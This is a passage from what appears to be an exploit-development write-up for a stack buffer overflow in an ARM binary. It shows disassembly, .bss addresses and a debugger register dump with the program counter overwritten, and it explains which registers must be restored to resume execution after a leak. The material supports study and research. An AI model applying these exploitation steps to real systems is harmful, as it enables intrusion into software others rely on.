 As we can see, before the address of the branch instruction we have a function prologue:

```
.text:00009AC4    PUSH    {R4-R11,LR}
.text:00009AC8    LDR     R4, =stdout
.text:00009ACC    SUB     SP, SP, #0x254
.text:00009AD0    LDR     R11, =stdin
.text:00009AD4    LDR     R7, =__ctype_b
.text:00009AD8    ADD     R5, SP, #0x278+var_5C
.text:00009ADC    ADD     R1, R5, #4
.text:00009AE0    ADD     R6, SP, #0x278+var_30
.text:00009AE4    STR     R1, [SP,#0x278+var_264]


```

We can see that registers R4, R7 and R11 hold the stdout, __ctype_b, and stdin values which are important for further execution. Therefore, in order to continue the execution flow after the leak, we need to restore those values.

### Important register fix

The aforementioned stdout, __ctype_b, and stdin values are stored at fixed addresses in the .bss segment which contains statically allocated variables that are declared but have not been assigned a value yet:

```
.bss:0001592C ; Segment type: Uninitialized
.bss:0001592C                 AREA .bss, DATA
.bss:0001592C                 ; ORG 0x1592C
.bss:0001592C                 EXPORT stdout
.bss:0001592C stdout          % 4                  ; DATA XREF: LOAD:000084D8↑o
.bss:0001592C                                      ; LOAD:00008748↑o ...
.bss:0001592C                                      ; Copy of shared data
.bss:00015930                 EXPORT __ctype_b
.bss:00015930 __ctype_b       % 4                  ; DATA XREF: LOAD:00008708↑o
.bss:00015930                                      ; sub_9AC4+10↑o ...
.bss:00015930                                      ; Copy of shared data
.bss:00015934                 EXPORT stdin
.bss:00015934 stdin           % 4                  ; DATA XREF: LOAD:000084C8↑o
.bss:00015934                                      ; sub_9AC4+C↑o ...
.bss:00015934                                      ; Copy of shared data


```

At the moment of the overflow, the R10 register holds a value which is quite close to the ones we need loaded:

```
pwndbg> i r
r0             0x0                 0
r1             0x8915              35093
r2             0xffffffff          4294967295
r3             0x10                16
r4             0x42424242          1111638594
r5             0x42424242          1111638594
r6             0x42424242          1111638594
r7             0x42424242          1111638594
r8             0x0                 0
r9             0x0                 0
r10            0x16170             90480
r11            0x0                 0
r12            0xffffffff          4294967295
sp             0xcecdd428          0xcecdd428
lr             0x98e8              39144
pc             0x42424240          0x42424240
```